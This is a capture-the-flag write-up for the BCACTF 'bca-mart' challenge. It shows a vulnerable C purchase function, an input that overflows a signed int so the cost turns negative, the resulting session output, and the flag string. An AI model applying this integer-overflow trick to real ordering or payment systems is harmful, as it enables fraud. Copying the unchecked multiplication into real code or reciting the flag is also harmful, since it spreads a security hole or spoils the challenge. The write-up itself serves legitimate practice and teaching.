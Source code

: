 ![question](Screenshot_2.png)
1) `nc bin.bcactf.com 49153`
1) takes us to a store page where we can buy stuff, we only have $15, but the flag costs $100.
1) looking at a snippet of [bca-mart.c](bca-mart.c) 
```
int purchase(char *item, int cost) {
    int amount;
    printf("How many %s would you like to buy?\n", item);
    printf("> ");
    scanf("%d", &amount);

    if (amount > 0) {
        cost *= amount;
        printf("That'll cost $%d.\n", cost);
```
you can tell that you enter an amount of something to buy and it's stored as an int. "cost" is then calculated by multiplying the item cost and the amount you ordered.  

4) We can exploit this to force the cost to be a negative number therefore making our "purchase" give us money. Then once we have the money we can buy a flag.

5) we need to enter an amount that will still be valid, but when multiplied by the cost will go over the 2,147,483,647 threshold to force the sign to flip.

6) I attempted to buy 2100000000  BCA merch at $20 each
```
You currently have $3.
What would you like to buy?
> 5   
How many wonderfully-designed t-shirts would you like to buy?
> 2100000000
That'll cost $-949672960.
Thanks for your purchse!

1) Hichew™: $2.00
2) Lays® Potato Chips: $2.00
3) Water in a Bottle: $1.00
4) Not Water© in a Bottle: $2.00
5) BCA© school merch: $20.00
6) Flag: $100.00
0) Leave

You currently have $949672963.
What would you like to buy?
> 6
How many super-cool ctf flags would you like to buy?
> 1
That'll cost $100.
Thanks for your purchse!
bcactf{bca_store??_wdym_ive_never_heard_of_that_one_before}
```
7) We got the money and then simply purchased the flag
8) flag: **bcactf{bca_store??_wdym_ive_never_heard_of_that_one_before}**
